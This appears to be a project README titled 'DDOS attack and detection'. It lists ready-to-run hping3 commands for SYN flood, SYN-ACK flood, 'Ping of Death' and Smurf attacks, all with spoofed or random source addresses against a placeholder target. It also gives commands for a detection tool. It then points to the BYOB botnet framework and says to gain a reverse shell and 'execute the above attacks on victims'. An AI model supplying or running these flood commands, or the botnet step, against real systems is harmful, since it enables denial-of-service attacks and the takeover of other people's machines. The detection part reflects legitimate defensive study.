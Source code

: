 # DDOS attack and detection
Hping3, SniffnDetect and BYOB demonstration


## 1) DDOS attack
```sh
$ sudo apt intstall hping3
```
4 Attacks namely : 
- TCP SYN flood
```sh
$ sudo hping3 -S -p <port no> --flood --rand-source <target ip>
```
- TCP SYN-ACK flood
```sh
$ sudo hping3 -SA -p <port no> --flood --rand-source <target ip>
```
- Ping of Death 
```sh
$ sudo hping3 -1 -d <max packet size> -p <port no> --flood --rand-source <target ip>
```
- ICMP Smurf Attack
```sh
$ sudo hping3 -1 -d <max packet size> -p <port no> --flood <target ip> -a <target ip>
```

## DDOS Detection 
```sh
$ cd ddos-detector
$ sudo python3 app.py
```
Can detect the above attacks in the attack terminal with this toolkit

## BYOB

[Installation](https://github.com/malwaredllc/byob)

Gain access to reverse shell after installtion, and execute the above attacks on victims 



## License
MIT
